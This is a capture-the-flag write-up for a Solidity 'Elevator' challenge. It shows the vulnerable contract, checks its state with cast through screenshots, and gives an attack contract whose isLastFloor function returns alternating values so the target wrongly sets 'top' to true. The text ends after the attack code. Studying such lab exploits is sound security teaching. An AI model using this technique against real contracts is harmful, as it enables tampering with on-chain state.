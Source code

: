 # Task

This elevator won't let you reach the top of your building. Right?

# Contract

```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
    function isLastFloor(uint256) external returns (bool);
}

contract Elevator {
    bool public top;
    uint256 public floor;

    function goTo(uint256 _floor) public {
        Building building = Building(msg.sender);

        if (!building.isLastFloor(_floor)) {
            floor = _floor;
            top = building.isLastFloor(floor);
        }
    }
}
```

Lets get the contract address and contract abi

![image](https://github.com/user-attachments/assets/516d6c35-6444-48f6-aaa2-42618867c170)

We'll start out by using cast to check the state of the elevator

![image](https://github.com/user-attachments/assets/fb8e9fdf-ab41-4ed3-ad3e-f26a50dcd251)

We get the "false" response, this means we aren't at the top of the building yet

Lets check the floor we are at

![image](https://github.com/user-attachments/assets/111dcded-99a1-4041-bc06-9c533ab567f9)

We are at floor "0".

To solve this chall we have to be on the last floor. Lets write our attack contract

```sol
//SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "./elevator.sol";

contract elevatorAttack {
   bool public toggle = true;
   Elevator public target;

   constructor(address _targetAddr) public {
    target = Elevator(_targetAddr);
   }
   
   function isLastFloor(uint) public returns (bool) {
        toggle = !toggle;
        return toggle;
   }

    function setFloor(uint _floor) public {
        target.goTo(_floor);
    }
}
```









































